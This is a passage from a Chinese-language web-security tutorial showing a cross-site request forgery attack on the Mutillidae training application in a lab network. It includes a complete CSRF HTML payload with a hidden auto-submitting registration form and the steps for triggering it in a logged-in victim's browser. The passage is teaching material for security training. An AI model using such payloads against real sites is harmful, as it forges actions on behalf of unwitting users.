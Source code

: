 ![](img/00231.jpeg)

1.  在查看页面源代码时，向下滚动到`<form>`标签部分。为简洁起见，下面重新创建了表单。将`attacker`作为用户名、密码和签名的值。复制以下 HTML 代码并将其保存在名为`csrf.html`的文件中：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.56.101/mutillidae/index.php?page=register.php" method="POST">
      <input type="hidden" name="csrf-token" value="" />
      <input type="hidden" name="username" value="attacker" />
      <input type="hidden" name="password" value="attacker" />
      <input type="hidden" name="confirm_password" value="attacker" 
/>      <input type="hidden" name="my_signature" value="attacker account" />
      <input type="hidden" name="register-php-submit-button" value="Create Account" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

1.  现在，返回到登录屏幕（从顶部菜单中单击登录/注册），并使用用户名`ed`和密码`pentest`登录应用程序。

1.  打开您的计算机上保存了`csrf.html`文件的位置。将文件拖到已经通过身份验证的 ed 的浏览器中。在您将文件拖到此浏览器后，`csrf.html`将出现为同一浏览器中的单独标签：

![](img/00232.jpeg)
